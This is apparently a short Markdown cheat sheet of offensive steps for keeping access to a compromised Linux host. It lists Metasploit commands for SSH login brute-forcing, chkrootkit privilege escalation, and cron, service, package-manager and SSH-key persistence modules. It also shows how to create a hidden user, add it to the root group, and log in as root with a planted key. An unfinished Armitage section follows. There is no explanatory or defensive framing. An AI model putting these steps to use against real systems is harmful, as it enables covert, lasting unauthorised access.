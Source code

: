 ### Establishing Persistance On Linux
- service postgresql start && msfconsole
- search ssh_login exploit
- sessions -u 1 upgrade
- search chkrootkit 
- set
- set chkrootkit /bin/chkrootkit
- useradd -m ftp -s /bin/bash
- groups root
- usermod -aG root ftp
- usermod -u 15 ftp
- search platform:linux persistance
- search apt_package_manager_persistance
- search cron_persitance
- search service_persistance
- set target 3
- search sshkey_persitence
- set createsshfolder true
- set session 4
- exit
- nano ssh_key 
- paste the private ssh_key
- chmod 0400 ssh_key
- ssh -i ssh_key root@<target-ip>

### Armitage
- GUI
- service postgresql start && msfconsole
- 
